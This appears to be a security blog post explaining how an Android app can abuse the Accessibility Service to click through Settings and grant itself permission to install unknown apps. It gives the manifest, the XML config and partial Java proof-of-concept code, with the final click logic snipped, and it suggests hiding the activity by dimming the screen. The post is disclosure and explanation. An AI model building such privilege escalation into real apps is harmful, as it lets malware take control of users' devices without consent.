

## About Android security

### [~$ cd ..](../)

### ~$ cat How_an_Android_app_could_escalate_its_privileges.txt

#### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.

Actually, it could be harmless (or at least to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be... 

Does it seem so unrealistic ? Let's take a close look ...

#### Setting up an Accessibility Service

To create an Accessibility Service an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

#### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
In my application I have to make the difference between events coming from my application, and those coming from Settings.
The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done. 

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				for (int i = 0; i < info.getChildCount(); i++) {
>					lookForPermissionsPanel(info.getChild(i));
>				}
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent. 
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widgets has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

Where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution](https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)

#### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[](https://youtu.be/7SMHSPEBcAw)
